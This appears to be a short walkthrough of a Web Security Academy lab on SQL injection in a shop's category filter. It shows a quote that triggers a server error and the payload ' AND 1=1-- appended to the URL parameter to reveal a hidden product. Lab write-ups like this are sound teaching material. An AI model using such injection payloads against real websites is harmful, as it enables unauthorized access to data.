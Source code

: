 The vulnerable request looks like:&#x20;

[https://0a8c00fb047975cf822f01c2003a00bf.web-security-academy.net/filter?category=Lifestyle](https://0a8c00fb047975cf822f01c2003a00bf.web-security-academy.net/filter?category=Lifestyle%27+AND+1%3d1--)

The backend SQL query may look something like:

<mark style="color:yellow;">`SELECT * FROM product WHERE category='Gifts'`</mark>

Now, what if we enter a ' after Gifts to see what happens

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>We get a 500 ISE. Interesting!</p></figcaption></figure>

So now, what if we enter <mark style="color:yellow;">`' AND 1=1--`</mark>, so that request (after URL encoding) looks like:

<mark style="color:yellow;">`https://0a8c00fb047975cf822f01c2003a00bf.web-security-academy.net/filter?category=Gifts'+AND+1%3d1--`</mark>

We get an extra product returned back to us!! (The hidden product)
